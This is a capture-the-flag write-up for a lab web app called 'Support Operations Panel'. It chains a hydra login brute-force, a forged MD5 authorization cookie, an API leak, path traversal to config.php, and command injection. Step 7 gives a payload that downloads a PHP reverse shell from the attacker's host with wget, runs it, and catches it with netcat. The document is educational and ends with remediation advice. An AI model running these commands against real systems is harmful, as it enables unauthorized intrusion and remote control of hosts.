# Support — Challenge Write-Up

> **Category:** Web / Linux
> **Difficulty:** Easy–Medium
> **Author:** Shoham
> **Date:** 2026-07-18

---

## Summary

Support is a vulnerable web application ("Support Operations Panel") where the goal is to climb from an anonymous visitor to a full administrator and then to a shell on the host. The path chained a handful of independent flaws: a login brute-forced with a hinted username, a client-side authorization cookie whose value was just `md5("false")`, an unauthenticated API endpoint that leaked the real administrator's email, a path-traversal / LFI in a `skin` parameter that disclosed a master password from `config.php`, and finally OS command injection in a "Date" feature that gave a reverse shell as `www-data`. Tools used: `nmap`, `gobuster`, `hydra`, CrackStation, CyberChef, browser dev tools, a Python HTTP server, and `netcat`.

---

## Challenge Info

**Given:**

- Target IP: `10.112.182.177`
- A username hint on the login page: `help@support.thm`
- Attacker IP (used for the reverse shell): `192.168.130.75`

**Tools used:** `nmap`, `gobuster`, `hydra`, CrackStation (MD5 lookup), CyberChef (MD5 encoding), Firefox dev tools (Storage / Network / Inspector), `python3 -m http.server`, `netcat`

---

## The Vulnerability

There is no single bug here — the box is a chain, and each link hands the next one what it needs.

Access starts with a plain credential-guessing problem: the login page prints a valid corporate email in the address bar and the help text, which narrows a brute-force to a single username. Once inside as a low-privileged "Helpdesk User," authorization is enforced by a **client-controlled cookie** (`isITUser`) whose value is nothing more than `md5("false")`. Because that trust decision lives entirely in a cookie the browser can edit, flipping it to `md5("true")` is enough to unlock the IT Admin Panel — a broken-access-control flaw.

That panel exposes an **unauthenticated API** (`/user/1`) that discloses the true administrator's email address, and a `skin` parameter on `dashboard.php` that is vulnerable to **path traversal / Local File Inclusion**. Traversing to `config.php` leaks a `$MASTER_PASSWORD` in the page source. Combining the leaked admin email with that master password authenticates as the real administrator. From the authenticated dashboard, a "Date" widget passes user input into a shell command (`sys` parameter) without sanitisation — an **OS command injection** that turns admin access into remote code execution and, from there, a reverse shell.

---

## Solution Walkthrough

### Step 1 — Reconnaissance

I started with a full-port service scan.

```bash
nmap -T5 -p- -sC -sV -Pn -n -oN support.txt -v 10.112.182.177
```



Two ports were open: **22/tcp** (OpenSSH 9.6p1 on Ubuntu) and **80/tcp** (Apache httpd 2.4.58). The HTTP title was *Support Operations Panel*, and the `http-cookie-flags` script flagged that the `PHPSESSID` cookie had **`httponly` not set** — an early hint that this app leans on client-readable cookies, worth remembering later. SSH offered no obvious way in without credentials, so the web service was the target.

Browsing to the site returned an "Employee Authentication" login. Usefully, the page all but handed over a username: the corporate email `help@support.thm` was shown as the login example and repeated in the "Problems signing in?" footer.



Before attacking the login, I enumerated the web root for other endpoints.

```bash
gobuster dir -u http://10.112.182.177 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.js
```



This surfaced the pages I'd rely on later: `dashboard.php` and `api.php` (both `302 → index.php`, i.e. gated behind login), a zero-byte `config.php` (`200`, size `0` — PHP executes it, so a direct request returns nothing), plus `info.php`, `logout.php`, and the `skins/`, `includes/`, `layout/`, and `js/` directories. `config.php` and `dashboard.php` are the two to keep an eye on.

### Step 2 — Brute-forcing the login

With a known username and an unknown password, I ran `hydra` against the POST login form, matching the failure string *Invalid credentials*.

```bash
hydra -l help@support.thm -P /usr/share/wordlists/rockyou.txt 10.112.182.177 \
  http-post-form "/:email=^USER^&password=^PASS^:F=Invalid credentials"
```



Hydra reported one valid password for `help@support.thm` (masked above). Logging in with it landed me on the Support Dashboard as **"Helpdesk User"** — a low-privileged account showing only a "Ticket management system" card, with no admin functionality visible.

### Step 3 — Forging the authorization cookie (broken access control)

Back to that earlier hint about client-readable cookies. In the Storage tab, the session carried a cookie named **`isITUser`** with the value `68934a3e9455fa72420237eb05902327`. On this account the IT Admin Panel was **not** rendered.


That value is a 32-character hex string — a classic MD5. Dropping it into CrackStation resolved it instantly:



The cookie was simply `md5("false")`. So the application decides whether you are an "IT user" by comparing this cookie against the MD5 of a boolean — a decision made entirely on the client side. I generated the opposite value with CyberChef:



`md5("true")` = `b326b5062b2f0e69046810717534cb09`. I edited the `isITUser` cookie to that value and reloaded. The dashboard now rendered the previously hidden **IT Admin Panel** with a **View API** button.



### Step 4 — Leaking the admin email from the API

The View API panel pointed at a user endpoint. Requesting `/user/1` returned JSON directly, with no additional authorization:


This disclosed `email: "specialadmin@support.thm"`, `2FA: false`, and `admin: true`. I now had the **real administrator's email** — the account worth targeting — and confirmation that it had no second factor standing in the way. What I still lacked was its password.

### Step 5 — LFI in the `skin` parameter → master password

`dashboard.php` took a `skin` parameter, which looked like it was feeding a filename into an include. I tested directory traversal toward the `config.php` that gobuster had flagged:

```
http://10.112.182.177/dashboard.php?skin=../config
```


The traversal pulled `config.php` into the page, and its contents surfaced in the rendered source (visible in the Inspector as a commented block). That block exposed a PHP assignment:

```php
$MASTER_PASSWORD = '******' ; $SITE_VER = '1.0'; $SITE_NAME = 'support_portal';
```

This is really **arbitrary file read via path traversal** — classic LFI is a subset of what the `skin` parameter allows. The recovered `$MASTER_PASSWORD` (masked here) was the missing half of the admin login.

### Step 6 — Logging in as administrator

I combined the two leaks — the admin email `specialadmin@support.thm` from Step 4 and the master password from Step 5 — and authenticated. The dashboard confirmed full admin access and revealed the administrator flag (masked below).



### Step 7 — Command injection in the "Date" feature → RCE

The dashboard footer had a **Date** widget. Triggering it issued a POST that returned the output of the server's `date` command, which meant user input was reaching a shell:



The request carried a `sys` parameter. Since the backend was clearly executing it as a command, I injected a payload to fetch and run a PHP reverse shell hosted on my machine (served over `python3 -m http.server 8080`):

```
sys=date |wget http://192.168.130.75:8080/php-reverse-shell.php|php php-reverse-shell.php
```



I set up a listener before sending it:

```bash
nc -lvnp 4444
```



The payload downloaded and executed the shell, and the listener caught a connection back from `10.112.182.177` as **`www-data`** (`uid=33`).



### Step 8 — User flag

With a shell on the host, I located and read the user flag.

```bash
find / -name user.txt 2>/dev/null
ls -l /home/ubuntu/user.txt
cat /home/ubuntu/user.txt
```


The flag lived at `/home/ubuntu/user.txt` (contents masked).

---

## Dead Ends & Notable Unused Findings

- **SSH (22/tcp)** was open the whole time but never usable — no credentials recovered mapped to a system account, and the whole chain ran over HTTP. Noted so a reader doesn't burn time on it.
- **`info.php`** (found by gobuster, `200`, ~73 KB) is almost certainly a `phpinfo()` page — a real information-disclosure issue worth reporting, but not needed for this path.
- **`2FA: false`** in the `/user/1` response was a relief rather than an obstacle; no 2FA bypass was required.
- No `/etc/hosts` mapping was needed — every request was made against the raw IP; `support.thm` only appears as the email domain, not as a required virtual host.

---

## Remediation

- **Login brute-force / username disclosure:** Don't print valid usernames on the login page. Add rate limiting, account lockout, and CAPTCHA; enforce strong password policy so `rockyou.txt` guessing fails.
- **Broken access control via cookie:** Never make authorization decisions from a client-editable value, and certainly not from `md5("true"/"false")`. Track role/privilege server-side in the session and re-check it on every privileged action.
- **Unauthenticated API disclosure:** Require authentication and authorization on `/user/*`; return only fields the caller is entitled to, and never expose internal flags like `admin` to lower-privileged users.
- **LFI / path traversal:** Never pass user input into an include/file path. Whitelist skin names against a fixed allowlist, strip `../`, and keep secrets like `$MASTER_PASSWORD` out of web-served files entirely (use environment variables or a store outside the web root).
- **OS command injection:** Don't build shell commands from user input. Call `date` (or equivalent) via a native API, or if a subprocess is unavoidable, use argument arrays with no shell and strictly validate input against an allowlist.
- **General hardening:** Set `HttpOnly` (and `Secure`) on session cookies, serve the site over HTTPS, and disable `phpinfo()` exposure in production.

---

## References

- [OWASP — Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [OWASP — Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [OWASP — Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [OWASP — Testing for LFI](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [Hydra documentation](https://github.com/vanhauser-thc/thc-hydra)
